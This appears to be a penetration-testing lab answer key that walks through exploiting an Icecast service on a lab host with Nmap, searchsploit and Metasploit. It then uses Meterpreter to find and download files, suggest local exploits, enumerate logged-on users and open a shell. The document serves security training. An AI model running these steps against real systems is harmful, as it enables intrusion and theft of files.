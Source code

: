 # Penetration Test Engagement
1. Perform a service and version scan using Nmap to determine which services are up and running:
-  Run the Nmap command that performs a service and version scan against the target.
    - Answer: `nmap -sV 192.168.0.20`

2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
- Run the SearchSploit commands to show available Icecast exploits.
  - Answer: `searchsploit icecast`

3. Now that we know which exploits are available to us, let's start Metasploit:
- Run the command that starts Metasploit:
  - Answer: `msfconsole`

4. Search for the Icecast module and load it for use.
- Run the command to search for the Icecast module:
   - Answer:`search icecast`

- Run the command to use the Icecast module:
  - Note: Instead of copying the entire path to the module, you can use the number in front of it.
    - Answer: `use 0`

5. Set the RHOST to the target machine.
- Run the command that sets the RHOST:
  - Answer: `set RHOST 192.168.0.20`

6. Run the Icecast exploit.
- Run the command that runs the Icecast exploit.
  - Answer: `run`

- Run the command that performs a search for the secretfile.txt on the target.
  - Answer: `search -f *secretfile*.txt`

7. You should now have a Meterpreter session open.
- Run the command to performs a search for the recipe.txt on the target:
  - Answer:`search -f *recipe*.txt`

- Bonus: Run the command that exfiltrates the recipe*.txt file:
  - Answer: `download 'c:\Users\IEuser\Documents\Drinks.recipe.txt'`


8. You can also use Meterpreter's local exploit suggester to find possible exploits.
- Command to find local exploits:
  - Answer: `run post/multi/recon/local_exploit_suggester`

- Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

## Bonus
A. Run a Meterpreter post script that enumerates all logged on users.
  - Answer: `run post/windows/gather/enum_logged_on_users`

B. Open a Meterpreter shell and gather system information for the target.
  - Answer: `shell`

C. Run the command that displays the target's computer system information:
  - Answer: `systeminfo`
